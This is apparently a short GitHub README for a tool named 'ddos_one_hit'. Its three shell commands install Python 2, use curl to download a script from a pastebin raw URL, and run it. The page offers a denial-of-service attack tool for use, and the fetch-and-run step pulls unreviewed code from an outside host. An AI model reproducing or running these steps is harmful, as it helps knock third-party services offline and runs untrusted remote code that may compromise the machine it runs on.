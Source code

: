 # ddos_one_hit
<br><br>
$ pkg install python2 <br>
$ curl --url https://pastebin.com/raw/eNfQvz21 -o ddos_one_hit.py <br>
$ python2 ddos_one_hit.py <br>
